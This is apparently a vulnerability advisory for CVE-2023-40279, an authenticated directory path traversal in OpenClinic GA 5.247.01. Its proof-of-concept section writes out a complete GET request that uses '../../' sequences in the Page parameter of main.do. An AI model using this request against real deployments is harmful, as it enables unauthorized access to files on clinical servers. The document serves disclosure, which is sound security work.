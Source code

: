 # CVE-2023-40279: Authenticated Directory Path Traversal via main.do in OpenClinic GA 5.247.01
## Abstract
A Directory Path Traversal vulnerability has been discovered in OpenClinic GA version 5.247.01, affecting the main.do component. This vulnerability enables authenticated attackers to traverse the server's directory structure via the Page parameter in a GET request, allowing for the unauthorized retrieval and execution of files from arbitrary directories.

## Identification
CVE ID: CVE-2023-40279

Exploit Title: Authenticated Directory Path Traversal via main.do in OpenClinic GA 5.247.01

Date Discovered: 2023-08-14

Affected Software: OpenClinic GA version 5.247.01

Vendor: OpenClinic

Software Link: [SourceForge Project Page](https://sourceforge.net/projects/open-clinic/)

Tested Environments: Windows 10, Windows 11

## Vulnerability Details
The vulnerability resides in the handling of the Page parameter within the main.do request. Improper validation of this parameter allows authenticated users to construct a GET request that can traverse directories and access or execute files outside the application's intended directories, posing a significant security risk.

## Proof of Concept (PoC)
Steps to Reproduce:

    1. Crafting the Malicious GET Request:
      Use a web browser or an HTTP request tool such as curl or Burp Suite.
      Construct the GET request as below, using ../../main.jsp to navigate directories and access main.jsp:
        GET /openclinic/main.do?Page=../../main.jsp HTTP/1.1
        Host: 192.168.100.5:10088
        Accept-Encoding: gzip, deflate
        Accept: */*
        Accept-Language: en-US;q=0.9,en;q=0.8
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
        Connection: close
        Cookie: JSESSIONID=[SESSION ID]
        Cache-Control: max-age=0

      Replace [SESSION ID] with a valid session ID from an authenticated user session.

    2. Confirming the Vulnerability:
      Send the crafted GET request to the server.
      If the server responds by providing the content of main.jsp or any file outside the intended directory, it confirms the existence of a directory path traversal vulnerability. This access could lead to the disclosure of sensitive information or facilitate more severe attacks.

## Impact
By exploiting this vulnerability, attackers could potentially access sensitive system files or execute unauthorized actions on the server, leading to data breaches, system compromise, and a significant breach of security protocols.
